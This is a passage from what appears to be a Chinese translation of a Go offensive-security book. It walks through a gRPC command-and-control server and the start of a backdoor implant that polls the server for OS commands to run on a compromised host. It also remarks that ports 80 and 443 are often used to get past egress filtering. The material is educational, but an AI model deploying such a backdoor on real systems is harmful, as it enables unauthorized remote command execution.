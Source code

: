 ```
    fmt.Sprintf("localhost:%d", 9090)); err != nil {
        log.Fatal(err)
    }
 ❺ grpcAdminServer, grpcImplantServer := \
    grpc.NewServer(opts...), grpc.NewServer(opts...)
 ❻ grpcapi.RegisterImplantServer(grpcImplantServer, implant)
    grpcapi.RegisterAdminServer(grpcAdminServer, admin)
 ❼ go func() {
        grpcImplantServer.Serve(implantListener)
    }()
 ❽ grpcAdminServer.Serve(adminListener)
}
```

*清单 14-3：运行管理员和植入体服务器 (*[/ch-14/server/server.go](https://github.com/blackhat-go/bhg/blob/master/ch-14/server/server.go)*)*

首先，我们声明变量❶。我们使用两个监听器：一个用于植入体服务器，另一个用于管理员服务器。这样做是为了使我们能够将管理员 API 服务在与植入体 API 分开的端口上。

我们创建了用于在植入体和管理员服务之间传递消息的通道❷。注意，我们在通过调用 `NewImplantServer(work, output)` 和 `NewAdminServer(work, output)` 初始化植入体和管理员服务器时使用了相同的通道❸。通过使用相同的通道实例，我们让管理员服务器和植入体服务器通过这个共享的通道相互通信。

接下来，我们为每个服务器启动网络监听器，将 `implantListener` 绑定到 4444 端口，将 `adminListener` 绑定到 9090 端口 ❹。通常我们会使用端口 80 或 443，这些是常见的 HTTP/s 端口，通常允许通过网络传出，但在这个示例中，我们只是为测试目的选择了一个任意的端口，以避免与我们开发机器上运行的其他服务发生冲突。

我们已经定义了网络级监听器。现在我们设置我们的 gRPC 服务器和 API。我们通过调用 `grpc.NewServer()` ❺ 创建了两个 gRPC 服务器实例（一个用于我们的 admin API，另一个用于我们的 implant API）。这初始化了核心 gRPC 服务器，将处理所有网络通信等工作。我们只需要告诉它使用我们的 API。我们通过调用 `grpcapi.RegisterImplantServer(grpcImplantServer, implant)` ❻ 和 `grpcapi.RegisterAdminServer(grpcAdminServer, admin)` 来注册 API 实现实例（在我们的示例中分别命名为 `implant` 和 `admin`）。请注意，尽管我们创建了一个名为 `grpcapi` 的包，但我们并没有定义这两个函数；是 `protoc` 命令定义的。它在 *implant.pb.go* 中为我们创建了这些函数，作为创建 implant 和 admin gRPC API 服务器新实例的手段。相当聪明！

到此为止，我们已经定义了 API 的实现并将其注册为 gRPC 服务。最后一步是通过调用 `grpcImplantServer.Serve(implantListener)` ❼ 启动我们的 implant 服务器。我们在 goroutine 中执行这一操作，以防止代码阻塞。毕竟，我们还需要启动 admin 服务器，这通过调用 `grpcAdminServer.Serve(adminListener)` ❽ 来完成。

服务器现在已经完成，可以通过运行 `go run` `server/server.go` 启动。 当然，由于没有任何东西与服务器交互，所以目前不会发生任何事情。接下来让我们继续看下一个组件——我们的 implant。

### 创建客户端 implant

客户端 implant 设计用于运行在被攻破的系统上。它将充当一个后门，通过它我们可以执行操作系统命令。在这个示例中，implant 会定期轮询服务器，询问是否有任务。如果没有任务，什么都不发生。否则，implant 执行操作系统命令并将输出发送回服务器。

Listing 14-4 显示了 *implant/implant.go* 的内容。

```
func main() {
    var
    (
        opts   []grpc.DialOption
        conn   *grpc.ClientConn
        err    error
        client grpcapi.ImplantClient ❶
    )

    opts = append(opts, grpc.WithInsecure())
    if conn, err = grpc.Dial(fmt.Sprintf("localhost:%d", 4444), opts...); err != nil { ❷
        log.Fatal(err)
    }
    defer conn.Close()
    client = grpcapi.NewImplantClient(conn) ❸

    ctx := context.Background()
    for { ❹
        var req = new(grpcapi.Empty)
        cmd, err := client.FetchCommand(ctx, req) ❺
        if err != nil {
```